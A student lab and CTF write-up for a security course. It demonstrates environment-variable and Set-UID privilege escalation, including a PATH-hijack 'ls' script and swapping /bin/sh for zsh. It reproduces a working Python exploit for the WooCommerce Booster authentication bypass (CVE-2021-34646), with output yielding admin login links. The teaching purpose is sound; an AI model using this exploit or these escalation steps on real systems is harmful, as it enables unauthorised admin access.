




# Trabalho realizado na Semana #4

<br>

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>
</figure>

<figure>
   
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>
</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

<br>

## Task 2 : Passing Environment Variables from Parent Process to Child Process

In the `Labsetup` folder, you'll find a file called `myprintenv.c`.

1. Compile the `myprintenv.c` file using `gcc myprintenv.c`.
2. Execute the program and save its output a file using `a.out > child_env`. 
3. Comment out the line marked with 1 and uncomment the line marked with 2.
4. Compile the program again using `gcc myprintenv.c`.
5. Execute the program and save its output to another file using `a.out > parent_env`.
6. Compare the two outputs using `diff child_env parent_env`.

No output is given in step 6, indicating that all environment variables are inherited with fork.

<figure>
   
   <figcaption><strong>Fig 5. </strong>Overview of task 2</figcaption>
</figure>

<br>

## Task 3 : Environment Variables and *execve()*

In the `Labsetup` folder, you'll find a file called `myenv.c`.

1. Compile the `myenv.c` file using `gcc myenv.c`.
2. Execute the program and save its output to a file using `a.out > null_env`.
3. Replace `NULL` with `environ` on the invocation of `execve`.
4. Compile the `myenv.c` file again using `gcc myenv.c`.
5. Execute the program and save its output to a file using `a.out > environ_env`.
6. Compare the changes using `diff null_env environ_env`.

<figure>
   
   <figcaption><strong>Fig 6. </strong>Overview of task 3</figcaption>
</figure>

As we can see, the `environ_env` file - when `environ` was passed to `execve` - has more environment variables
than the `null_env` file - when `NULL` was passed to `execve`. In fact, when `NULL` is passed to `execve`, the
resulting process has no environment variables.

The declaraction of `execve` helps us understand why this is the case.

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The `envp` array is the array of environment variables that will be passed to the resulting process. Therefore,
if we pass `NULL` to it, no environment variables will be passed to the resulting process and, if we pass `environ`,
the calling process' environment variables will be passed to the resulting process.

<br>

## Task 4 : Environment Variables and system()

1. Compile the following program.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
   system("/usr/bin/env");
   return 0 ;
}
```

2. Execute the program.
3. Analyze the result.

<figure>
   
   <figcaption><strong>Fig 7. </strong>Overview of task 4</figcaption>
</figure>

As we can see, the program behaves as if we called `env` directly from our shell, showing us all the process'
environment variables. When using `system`, it's as if we called the function

```c
execl("/bin/sh", "sh", "-c", "/usr/bin/env", (char *) NULL);
```

This function will afterwards call the `execve` function with the process' environment variables and, therefore,
the results will be the same.

<br>

## Task 5 : Environment Variable and Set-UID Programs

1. Compile the following program and name it `penv`.

```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

int main() {
   int i = 0;
   while (environ[i] != NULL) {
      printf("%s\n", environ[i]);
      i++;
   }
}
```

2. Make `root` the owner of `penv` using `sudo chown root penv`.
3. Set the `Set-UID` bit in `penv` using `sudo chmod 4755 penv`.

4. Change the current shell's environment variables using

```sh
export PATH=/PWNED:$PATH
export LD_LIBRARY_PATH=/PWNED
export PWNED=YES
```

5. Execute the `penv` program.

<figure>
   
   <figcaption><strong>Fig 8. </strong>Overview of task 5</figcaption>
</figure>

As we can see, both the modified `PATH` and our custom environment variable were passed to the `Set-UID` program.
The `LD_LIBRARY_PATH` environment variable, however, was not passed to the `Set-UID` program.

When a `Set-UID` program is run, the linker determines that the program is running in secure execution mode.
When in secure execution mode, the `LD_LIBRARY_PATH` is ignored to prevent the loading and execution of malicious code
in these programs. 
> Source: https://man7.org/linux/man-pages/man8/ld.so.8.html

For instance, if a hacker had write access to any directory (for instance, `/tmp`), they could compile a library
with a special implementation for any function (`printf`, for instance). In this implementation, they could call
`system("<command to start a reverse shell>")` or execute any other piece of malicious code.

When executing a given `Set-UID` program, the process would execute with the privileges of the program owner amd,
if `LD_LIBRARY_PATH=/tmp` (or the directory the hacker had access to), the linker would load the malicious `printf`
implementation and the system would be compromised. The reverse shell (or any other code in the malicious implementation)
would run as `root`.

<br>

## Task 6 : The PATH Environment Variable and Set-UID Programs

1. Compile the following program and name it `myls`.

```c
#include <stdlib.h>

int main() {
   system("ls");
   return 0;
}
```

2. Make `root` the owner of `myls` using `sudo chown root myls`.
3. Set the `Set-UID` bit in `myls` using `sudo chmod 4755 myls`.

4. Save the following malicious script to a file named `ls`.

```sh
#!/bin/sh
echo "Executing malicious script..."
whoami
```

5. Make `ls` executable using `chmod 755 ls`.
   
6. Add the current working directory, where the script is located, to the start of the `PATH` environment variable, using `export PATH=$PWD:$PATH`

7. Execute the `myls` program.
   
<figure>
   
   <figcaption><strong>Fig 9. </strong>Overview of task 6</figcaption>
</figure>

In this task, we have a `Set-UID` program called `myls` which executes the command `ls`.
Since the provided path is a relative path (it doesn't start with `/`), the `ls` program will be searched in the directories
indicated in the `PATH` environment variable. Once it finds a program called `ls` in one of those directories, the shell will
execute that program.

In this case, it will execute a shell script which prints a message and identifies the effective user name of the process.
Since `myls` is executed as `root` (since `root` is the owner of the file and the `Set-UID` bit is set), its child
processes will also be executed with `root` as their effective user. This means that the shell script is executed as `root`
as well and that's why `whoami` prints `root`.

> To execute the example successfuly, the `/bin/sh` program needs to be replaced with a shell that doesn't protect itself
> against being executed from `Set-UID` programs, such as `zsh`. To do that, you should execute `sudo ln -sf /bin/zsh /bin/sh`
> before executing any of the commands above.

<br>
<br>
<br>

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()


for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
